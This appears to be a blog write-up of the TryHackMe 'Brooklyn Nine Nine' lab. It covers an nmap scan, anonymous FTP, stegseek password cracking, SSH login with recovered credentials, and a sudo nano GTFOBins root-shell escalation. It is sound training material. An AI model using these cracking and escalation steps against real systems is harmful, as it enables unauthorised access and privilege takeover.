 ```yaml
---
title: TryHackMe Brooklyn Nine Nine [CHALLENGE]
date: 2024-03-14 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/95b2fab20e29a6d22d6191a789dcbe1f.jpeg
---
```


This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

## **Reconnaissance**
---
Initially do the Nmap scan.

```bash
nmap -sC -sV -p- $IP --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 04:31 EDT
Stats: 0:00:44 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 30.15% done; ETC: 04:33 (0:01:42 remaining)
Nmap scan report for 10.10.145.160
Host is up (0.30s latency).
Not shown: 65399 closed tcp ports (conn-refused), 133 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.50.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.31 seconds
```

## **Insights and To-TRY List**
---
OS: Ubuntu

TARGET IP: 10.10.145.160

80 → HTTP

- There is a clue from the source code about **steganography**
- The background image is password protected

21 → FTP

- Anonymous login is allowed
- There is a note saying that Jake has a weak password. From Amy.

22 → SSH

- There are possible 3 usernames.
    - Amy:?
    - Jake:?
    - Holts. Is this another username
        - Extracted from the background image.
- Found a password
    - holt: fluffydog12@ninenine

## **Enumeration**
---
### 80 HTTP

Viewing the page source code

![Desktop View](/assets/images/brooklyn/source-code.png){: width="972" height="589" }

It looks like we will be using some steganography tools. Maybe from the background image of the webpage since there is a big emphasis on how the background image follows the screen resolution. But how do we get the file?

![Desktop View](/assets/images/brooklyn/get-file.png){: width="972" height="589" }

Looking at the source code, the `url()` function is used to include an external resource. In this case, it's referring to an image file named **brooklyn99.jpg**. We can access it by:

```bash
http://10.10.145.160/brooklyn99.jpg
```
Before anything else, read about [Steganography by freecodecamp](https://www.freecodecamp.org/news/what-is-steganography-hide-data-inside-data/) first.

We need to extract what's hidden from the background image using steghide. You can use the --help page for steghide if you don't understand the flag being used.

```bash
steghide extract -sf brooklyn99.jpg -xf image-extract.txt
```

And it looks like the image is password protected. Let us use stegseek to bruteforce the password.

```bash
stegseek --crack brooklyn99.jpg /usr/share/wordlists/rockyou.txt
```
![Desktop View](/assets/images/brooklyn/stegseek.png){: width="972" height="589" }

**Use the steghide again** to extract the information from the background image and enter the password we got from bruteforcing using `stegseek`. Once extracted, view the text file.

```bash
steghide extract -sf brooklyn99.jpg -xf image-extract.txt
```
![Desktop View](/assets/images/brooklyn/steghide.png){: width="972" height="589" }

GOOD DOG! Cheddar!! We got the password, but who uses that? We can search for possible usernames in the FTP.

### 21 FTP

```bash
ftp <IP>
```
![Desktop View](/assets/images/brooklyn/ftp.png){: width="972" height="589" }

```bash
ls -la
```
![Desktop View](/assets/images/brooklyn/ls.png){: width="972" height="589" }

```bash
get <FILENAME>
```
![Desktop View](/assets/images/brooklyn/getfile.png){: width="972" height="589" }

Go back to working directory of the attack machine and view the text file.

![Desktop View](/assets/images/brooklyn/weak.png){: width="972" height="589" }

Can we hail hydra? Or Just use the credentials we just found from the text file hiding in the background image and the text file we got from the FTP.




## **Gaining an Initial Foothold**
---

Login via SSH. I tried using holt as the username, if it did not work, using hydra would be our best bet. Enter the password when prompted.

```bash
ssh holt@<IP>
```
![Desktop View](/assets/images/brooklyn/ssh.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }


## **Privilege Escalation**
---

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

![Desktop View](/assets/images/brooklyn/sudo.png){: width="972" height="589" }

It looks like our user is allowed to run `nano` as a superuser without a password. This means that we can open the final flag by leveraging the `sudo` command or just use the code below from GTFO bins to **spawn a root shell**.

![Desktop View](/assets/images/brooklyn/sudo-nano.png){: width="972" height="589" }

Using GTFOBins
```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

```bash
Ctrl + R
```
Nano allows inserting external files into the current one using the shortcut

```bash
Ctrl + X
```
This command allows us to execute system level commands using

```bash
reset; sh 1>&0 2>&0
```
Allows us to spawn a shell

![Desktop View](/assets/images/brooklyn/root-gtfo.png){: width="972" height="589" }

![Desktop View](/assets/images/brooklyn/pwned.png){: width="972" height="589" }


> Do not forget to find the FLAGS
{: .prompt-danger }

## **Take Away Concepts**
---
- Understand steganography. Sometimes, these pictures might have the passwords or hints you need to get on top of the machine.
- Always check websites or web apps carefully by yourself. View the page source!
- If the binary /bin/nano has extra permissions, you can use this to your advantage to escalate your privilege. Make sure you understand how this trick works instead of just copying blindly from GTFObins.
- Pay close attention to any hints given.
- Don't worry about checking different network services if you're stuck. You can always take notes and come back later.
- Trying to bruteforce passwords right away isn't the best first step. Make sure you've tried all other options first to gain an initial foothold!